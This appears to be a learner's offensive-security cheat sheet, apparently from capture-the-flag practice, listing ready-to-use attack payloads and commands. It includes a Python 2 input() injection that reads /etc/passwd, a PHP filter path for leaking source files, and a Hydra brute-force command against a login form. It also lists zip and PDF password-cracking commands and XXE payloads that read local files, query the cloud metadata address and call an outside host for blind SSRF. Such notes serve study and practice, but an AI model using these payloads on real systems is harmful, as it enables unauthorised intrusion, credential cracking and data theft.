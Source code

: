 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

```__import__("os").system('cat /etc/passwd')```


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition'   , -s specifies port , even if u send pass only, specify user for it to run smoothly


## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash  ( depends on the format of archive/hash, look at previous output )

## PDFCrack
pdfcrack -f locked.pdf -w rockyou.txt

## Cyberchef is really good on the fly

## XXE:
### Normal request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Crafted request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
### SSRF 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> `
### blind SSRF test with your own server
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://toto.afri.ca"> ]> `
##### inline SSRF 
```<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://toto.afri.ca"> %xxe; ]>```

### xxe in svg
```<?xml version="1.0" standalone="yes"?><!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> ```
